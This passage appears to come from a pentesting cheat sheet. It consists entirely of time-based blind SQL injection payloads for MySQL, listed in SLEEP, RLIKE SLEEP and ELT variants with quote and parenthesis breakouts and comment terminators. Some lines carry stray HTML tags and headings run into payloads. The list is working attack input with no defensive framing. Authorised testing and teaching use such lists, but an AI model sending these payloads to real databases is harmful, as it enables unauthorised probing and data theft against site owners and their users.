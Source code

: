 ' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) OR '1337'='1337
') WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
<strong>") WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337RLIKE BLIND:You can replace AND / ORRLIKE SLEEP(5)--
</strong>' RLIKE SLEEP(5)--
' RLIKE SLEEP(5)-- 1337
" RLIKE SLEEP(5)-- 1337
') RLIKE SLEEP(5)-- 1337
') RLIKE SLEEP(5) AND ('1337'='1337
')) RLIKE SLEEP(5) AND (('1337'='1337
'))) RLIKE SLEEP(5) AND ((('1337'='1337
) RLIKE SLEEP(5)-- 1337
) RLIKE SLEEP(5) AND (1337=1337
)) RLIKE SLEEP(5) AND ((1337=1337
))) RLIKE SLEEP(5) AND (((1337=1337
1 RLIKE SLEEP(5)
1 RLIKE SLEEP(5)-- 1337
1 RLIKE SLEEP(5)# 1337
) WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
1 WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
+(SELECT 1337 WHERE 1337=1337 RLIKE SLEEP(5))+
)) AS 1337 WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
) AS 1337 WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
` WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
`) WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
' RLIKE SLEEP(5) AND '1337'='1337
') RLIKE SLEEP(5) AND ('1337' LIKE '1337
')) RLIKE SLEEP(5) AND (('1337' LIKE '1337
'))) RLIKE SLEEP(5) AND ((('1337' LIKE '1337
%' RLIKE SLEEP(5) AND '1337%'='1337
' RLIKE SLEEP(5) AND '1337' LIKE '1337
") RLIKE SLEEP(5) AND ("1337"="1337
")) RLIKE SLEEP(5) AND (("1337"="1337
"))) RLIKE SLEEP(5) AND ((("1337"="1337
" RLIKE SLEEP(5) AND "1337"="1337
") RLIKE SLEEP(5) AND ("1337" LIKE "1337
")) RLIKE SLEEP(5) AND (("1337" LIKE "1337
"))) RLIKE SLEEP(5) AND ((("1337" LIKE "1337
" RLIKE SLEEP(5) AND "1337" LIKE "1337
' RLIKE SLEEP(5) OR '1337'='1337
') WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
") WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
' WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
" WHERE 1337=1337 RLIKE SLEEP(5)-- 1337
<strong>ELT Blind:You can replace AND / OR' AND ELT(1337=1337,SLEEP(5))--
</strong>' AND ELT(1337=1337,SLEEP(5))-- 1337
" AND ELT(1337=1337,SLEEP(5))-- 1337
') AND ELT(1337=1337,SLEEP(5))-- 1337
') AND ELT(1337=1337,SLEEP(5)) AND ('1337'='1337
')) AND ELT(1337=1337,SLEEP(5)) AND (('1337'='1337
'))) AND ELT(1337=1337,SLEEP(5)) AND ((('1337'='1337
' AND ELT(1337=1337,SLEEP(5)) AND '1337'='1337
') AND ELT(1337=1337,SLEEP(5)) AND ('1337' LIKE '1337
')) AND ELT(1337=1337,SLEEP(5)) AND (('1337' LIKE '1337
'))) AND ELT(1337=1337,SLEEP(5)) AND ((('1337' LIKE '1337
) AND ELT(1337=1337,SLEEP(5))-- 1337
) AND ELT(1337=1337,SLEEP(5)) AND (1337=1337
)) AND ELT(1337=1337,SLEEP(5)) AND ((1337=1337
))) AND ELT(1337=1337,SLEEP(5)) AND (((1337=1337
1 AND ELT(1337=1337,SLEEP(5))
1 AND ELT(1337=1337,SLEEP(5))-- 1337
1 AND ELT(1337=1337,SLEEP(5))# 1337
) WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
1 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337